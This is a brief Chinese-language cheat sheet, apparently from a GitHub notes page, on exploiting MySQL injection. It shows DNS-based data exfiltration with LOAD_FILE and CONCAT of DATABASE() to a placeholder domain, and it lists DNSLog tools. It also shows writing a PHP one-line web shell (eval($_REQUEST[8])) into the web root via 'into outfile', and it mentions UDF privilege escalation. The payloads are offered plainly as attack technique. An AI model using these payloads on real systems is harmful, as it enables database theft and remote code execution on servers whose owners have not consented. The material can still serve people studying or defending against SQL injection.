 # mysql盲注数据外带
## dns注入

### 前提条件
- windows系统下，且smb可用
- 安装了smb服务的linux(概率很小)
- mysql配置项`secure_file_priv`留空


### mysql配置项`secure_file_priv`简介
- `secure_file_priv`值为null时，mysqld不允许导入导出
- `secure_file_priv`值为空时，mysqld导入导出无限制
- `secure_file_priv`值为`/data/`时，mysqld导入导出路径只能为`/data/`
- 可执行`show global variables like '%secure%'`查看配置


### mysql读取文件

```
select load_file(filepath);
```

`filepath`可以输入:
- 相对路径`./filepath`
- 全局路径`C:/filepath`
- 网络共享路径`//filepath`

### dns日志

开源项目：https://github.com/BugScanTeam/DNSLog

在线工具：http://www.dnslog.cn

### demo

- 数据外带
  ```
  SELECT LOAD_FILE(CONCAT('//'.DATABASE(),'.xxx.xxx.com'));
  ```

## 写入脚本文件漏洞利用

### mysql写文件`select into`

- `outfile`可以写入多行，可输出终止符和换行格式，常用与脱库

- `dumpfile`只可写一行，并且输出中不存在任何格式，导入二进制文件不会因换行符导致文件被破坏，所以常用于写入软件 _udf提权_

### demo


- `select 123 into outfile './1.txt'`


- 写入一句话木马

  ```
  select "<?php eval($_REQUEST[8])?>" into outfile '../../../../php/a.php";
  ```

